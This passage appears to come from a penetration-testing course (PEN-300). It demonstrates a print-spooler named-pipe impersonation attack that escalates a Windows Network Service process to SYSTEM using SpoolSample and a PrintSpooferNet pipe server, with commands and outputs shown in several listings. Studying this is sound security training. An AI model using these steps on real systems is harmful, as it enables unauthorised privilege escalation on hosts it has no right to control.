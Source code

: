 To verify this, we can repeat our last example but this time supplying an arbitrary pipe name that contains a forward slash in the print client name:

```
C:\Tools> SpoolSample.exe appsrv01 appsrv01/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\appsrv01, CaptureServer: \\appsrv01/test
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1707 - The network address is invalid.
```

> Listing 36 - Invoking SpoolSample with forward slash

We receive an error and Process Monitor confirms the theory (Figure 3).

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/wc/aa65ea14ba18df472ecd888b8a035fe9-wc_pipe_procmon2.png" alt="Figure 3: Path canonicalized and attempted access"><figcaption><p>Figure 3: Path canonicalized and attempted access</p></figcaption></figure>

First, the path we supplied (appsrv01/test) has been switched to a canonical form (appsrv01\test) as part of the full path.

Second, spoolsv.exe attempted to access the named pipe \\\\.\appsrv01\test\pipe\spoolss while performing the callback. Since we have not created a pipe server by that name yet, the request failed.

At this point, we just need to create a pipe server with that name and simulate a print client. When we execute SpoolSample, the print spooler service will connect to our pipe.

To do this, we'll open another command prompt and launch our PrintSpooferNet application. Recall that we are launching our application from a _Network Service_ command prompt because we are demonstrating a scenario where we have exploited a process that has the _SeImpersonatePrivilege_, and we are trying to escalate to SYSTEM.

```
C:\Tools> PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

> Listing 37 - Creating the pipe server

Now we'll invoke SpoolSample to trigger the change notification against the capture server (appsrv01/pipe/test) as shown in Listing 38.

```
C:\Tools> SpoolSample.exe appsrv01 appsrv01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\appsrv01, CaptureServer: \\appsrv01/pipe/test
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```

> Listing 38 - Invoking SpoolSample again the pipe server

Our application reveals a connection from the "S-1-5-18" SID :

```
C:\Tools>PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
Found sid S-1-5-18
```
